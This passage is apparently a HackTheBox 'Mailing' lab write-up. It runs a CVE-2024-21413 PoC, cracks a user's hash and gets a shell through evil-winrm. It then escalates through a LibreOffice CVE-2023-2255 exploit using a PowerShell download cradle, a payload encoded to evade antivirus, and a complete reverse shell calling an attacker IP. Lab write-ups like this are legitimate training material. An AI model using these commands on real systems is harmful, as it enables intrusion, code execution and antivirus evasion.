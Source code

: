 Remember to turn on SMB in /etc/responder/Responder.conf

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250826101122.png)

Start exploit using PoC syntax:

```
python CVE-2024-21413.py --server "mailing.htb" --port 587 --username "Administrator@mailing.htb" --password "homenetworkingadministrator" --sender "Administrator@mailing.htb" --recipient "maya@mailing.htb" --url "\\10.10.14.8\test\meeting" --subject "CVE-2024-21413 PoC"
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250826102033.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250826102104.png)

and we got response, now attempt to crack it with hashcat:

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250826102221.png)

maya :m4y4ngs4ri
Winrm port is open so let's try to connect via evil-winrm

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250826102801.png)
## Privilege Escalation

upload winPEASany.exe
now I'm stuck for about 3h so wathing IppSec we found LibreOffice (non default program)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250826111311.png)

and exploit for that 
https://github.com/elweth-sec/CVE-2023-2255?source=post_page-----bc998fbc881c---------------------------------------

Creating reverse shell to exploit

```
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8:8000/shell.ps1')
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250826113703.png)

encode it to be undetected by AV and made command like in PoC

```
python3 CVE-2023-2255.py --cmd 'cmd /c powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADgAOgA4ADAAMAAwAC8AcwBoAGUAbABsAC4AcABzADEAJwApAAoA' --output exploit.odt
```

create rev shell .ps1 in https://www.revshells.com/ and host it via python3 -m http.server 8000

```
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.8',445);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
